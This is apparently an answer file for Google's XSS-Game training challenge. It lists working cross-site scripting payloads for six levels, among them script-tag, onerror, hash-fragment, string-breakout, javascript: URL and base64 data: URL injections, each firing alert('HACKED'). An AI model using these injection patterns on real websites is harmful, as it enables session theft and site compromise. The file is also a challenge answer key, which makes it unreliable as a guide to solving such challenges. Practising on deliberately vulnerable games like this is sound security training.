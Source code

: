 # XSS-Game by Google

### Level 1
```
https://xss-game.appspot.com/level1/frame?query=<script>alert("HACKED")</script>
```

### Level 2
```
<img src="asdf" onerror='alert("HACKED")'/>
```

### Level 3
```
https://xss-game.appspot.com/level3/frame/#"/><img src='asdf' onerror='alert("HACKED")'/>
```

### Level 4
```
'**alert("HACKED"));//
?timer=%27**alert%28%22HACKED%22%29%29%3B%2F%2F
```

### Level 5
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
```
### Level 6
```
base64(alert("HACKED");) => "YWxlcnQoIkhBQ0tFRCIpOw=="
https://xss-game.appspot.com/level6/frame#data:text/javascript;base64,YWxlcnQoIkhBQ0tFRCIpOw==
```
